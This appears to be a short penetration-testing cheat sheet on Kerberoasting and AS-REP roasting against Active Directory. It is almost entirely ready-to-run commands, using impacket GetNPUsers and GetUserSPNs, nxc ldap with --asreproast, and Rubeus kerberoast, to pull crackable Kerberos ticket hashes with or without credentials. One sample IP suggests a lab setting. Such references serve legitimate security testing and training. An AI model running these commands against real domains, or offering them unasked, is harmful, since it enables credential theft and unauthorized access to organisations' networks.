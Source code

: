 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["as_rep roasting", "impacket", "active directory", "ad", "domain controller", "Windows", "kerberoasting", "GetNPUsers"]
---
```


---
### AS_REP Roasting

```bash
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile usernames.txt -no-pass -dc-ip <DC>
```

```bash
# Multiple valid usernames (nxc)
nxc ldap 10.10.11.10 -u usernames.txt -p '' --asreproast as_rep_hashes.txt
```

```bash
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip 10.10.11.10 <DOMAIN>/<USER>
```

### Kerberoasting

#### From Linux

```bash
# Fix time skew
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC_IP>
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```bash
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile usernames.txt -dc-host <DC_IP> <DOMAIN>/
```

#### From Windows

```cmd
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:<PASSWORD>
```

<br>